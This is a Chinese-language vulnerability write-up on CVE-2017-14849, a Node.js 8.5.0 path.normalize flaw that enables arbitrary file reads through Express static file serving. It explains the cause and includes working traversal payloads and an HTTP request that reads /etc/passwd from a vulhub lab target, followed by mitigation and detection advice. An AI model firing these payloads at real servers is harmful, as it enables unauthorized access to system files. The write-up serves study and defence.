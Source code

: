 # 漏洞名称：Node.js 目录穿越漏洞


---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。

---

### 漏洞危害

任意文件读取

---

### 影响范围

Node.js 8.5.0 + Express 3.19.0-3.21.2
Node.js 8.5.0 + Express 4.11.0-4.15.5

---

## 漏洞原理

> 参考链接：https://security.tencent.com/index.php/blog/msg/121

原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。具体如下：

Express依赖Send组件，Send组件0.11.0-0.15.6版本pipe()函数中，如图：

![03](./img/node_CVE-2017-14849/03.png)

Send模块通过`normalize('.' + sep + path)`标准化路径path后，并没有赋值给path，而是仅仅判断了下是否存在目录跳转字符。如果我们能绕过目录跳转字符的判断，就能把目录跳转字符带入545行的`join(root, path)`函数中，跳转到我们想要跳转到的目录中，这是Send模块的一个bug，目前已经修复。

再来看Node.js，Node.js 8.5.0对path.js文件中的`normalizeStringPosix`函数进行了修改，使其能够对路径做到如下的标准化：

```
assert.strictEqual(path.posix.normalize('bar/foo../..'), 'bar');
```

新的修改带来了问题，通过单步调试发现，可以通过`foo../../`和目录跳转字符一起注入到路径中，`foo../../`可以把变量`isAboveRoot`设置为`false`（代码161行），并且在代码135行把自己删掉；变量`isAboveRoot`为`false`的情况下，可以在`foo../../`两边设置同样数量的跳转字符，让他们同样在代码135行把自己删除，这样就可以构造出一个带有跳转字符，但是通过`normalizeStringPosix`函数标准化后又会全部自动移除的payload，这个payload配合上面提到的Send模块bug就能够成功的返回一个我们想要的物理路径，最后在Send模块中读取并返回文件。

该漏洞是建立在文件夹通过express.static 来托管的情况下，因为在这种情况下才会使用normalize函数进行path标准化。

比如代码这样写：

```
app.use(express.static(path.join(__dirname, 'static')));
```

那么payload应该是

```
/../../../a/../../../../etc/passwd
```

但代码如果是这样写的话：

```
app.use(``'/static'``,express.static(path.join(__dirname, 'static')));
```

那么payload应该为：

```
/static/../../../a/../../../../etc/passwd
```

------

## 漏洞利用

### 靶机环境

vulhub/node/CVE-2017-14849

---

### 利用方式

访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。

![01](./img/node_CVE-2017-14849/01.png)



发送如下数据包，即可读取passwd：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![02](./img/node_CVE-2017-14849/02.png)

或者访问其他文件：

![04](./img/node_CVE-2017-14849/04.png)

---


## 威胁防护建议

### 用户处置建议

避免使用受影响版本的node.js

---

### 安全产品检测建议

检测类似`../../../foo/../../../../etc/passwd`的目录遍历形式

---

> https://drive.weixin.qq.com/s?k=AD4AGAfCAAw86qs7kb)


